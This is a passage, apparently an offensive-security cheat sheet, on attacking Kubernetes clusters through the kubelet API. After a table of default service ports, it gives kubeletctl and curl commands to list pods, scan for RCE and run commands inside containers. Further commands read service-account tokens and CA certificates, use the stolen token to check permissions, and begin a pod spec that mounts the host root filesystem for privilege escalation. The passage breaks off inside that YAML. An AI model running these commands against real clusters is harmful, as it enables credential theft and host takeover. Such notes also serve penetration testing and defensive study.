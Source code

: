 | **Service**             | **TCP Ports**  |
| ----------------------- | -------------- |
| `etcd`                  | `2379`, `2380` |
| `API server`            | `6443`         |
| `Scheduler`             | `10251`        |
| `Controller Manager`    | `10252`        |
| `Kubelet API`           | `10250`        |
| `Read-Only Kubelet API` | `10255`        |

The core of Kubernetes architecture is its API, which serves as the main point of contact for all internal and external interactions.

### Interaction

- Extract PODS info

  ```bash
   curl https://<IP>:10250/pods -k | jq .
   kubeletctl -i --server <IP> pods
   kubeletctl -i --server <IP> scan rce
  ```

- Execute commands

  ```bash
  kubeletctl -i --server <IP> exec "id" -p nginx -c nginx
  ```

- Gain acces

  ```bash
  # Extract token
  kubeletctl -i --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
  
  # Extract certificate
  kubeletctl --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
  
  # List privileges
  export token=`cat k8.token`
  ubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 auth can-i --list
  ```

  Given the privileges:

  - **Create**: create a pod &rarr; create a `YAML` file  to create a new container and mount the entire root filesystem

    ```yaml
    apiVersion: v1
    kind: Pod
    metadata:
      name: privesc
      namespace: default
    spec:
      containers:
      - name: privesc
        image: nginx:1.14.2
        volumeMounts:
        - mountPath: /root
          name: mount-root-into-mnt
      volumes:
      - name: mount-root-into-mnt
        hostPath: